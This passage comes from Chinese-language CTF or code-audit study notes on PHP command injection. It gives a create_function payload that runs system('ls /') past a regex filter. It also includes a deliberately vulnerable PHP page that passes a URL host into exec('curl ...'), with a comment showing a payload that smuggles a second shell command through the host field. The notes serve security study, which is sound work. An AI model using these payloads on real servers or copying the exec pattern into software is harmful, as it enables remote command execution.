 可以利用create_funtion函数来进行命令注入

而且需要绕过正则，这个正则匹配大小写字母和短横线

利用`\`来绕过

payload

```php
action=\create_function&arg=echo 1;}system("ls /");//
```


##  自创题

```php
// index.php
<?php
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){// 检验是否是合法url
    $site_info = parse_url($url); // 解析url, 返回他的组成部分
    echo '<br>'.'host为'.$site_info['host'].PHP_EOL;
    //var_dump($site_info);
    if(preg_match('/sec-redclub.com$/',$site_info['host'])){//需要host部分是指定的,$表示匹配字符串的结束，因此只要结尾有这个host就可以
        echo 'curl "'.$site_info['host'].'"'.PHP_EOL;
        exec('curl "'.$site_info['host'].'"', $result);// ?url=javascript://";dir;"sec-redclub.com
        echo '<br>'.$result.PHP_EOL;
        var_dump($result);
        echo 'curl "'.$site_info['host'].'"';
        echo "<center><h1>You have curl {$site_info['host']} successfully!</h1></center>
              <center><textarea rows='20' cols='90'>";
        echo implode(' ', $result);
    }
    else{
        die("<center><h1>Error: Host not allowed</h1></center>");
    }

}
else{
    echo "<center><h1>Just curl sec-redclub.com!</h1></center><br>
          <center><h3>For example:?url=http://sec-redclub.com</h3></center>";
}

?>
```

代码审计，需要绕过` filter_var`

filter_var函数定义：

![img](img/d69655098b992b47b9fbd2257935ba97.png)
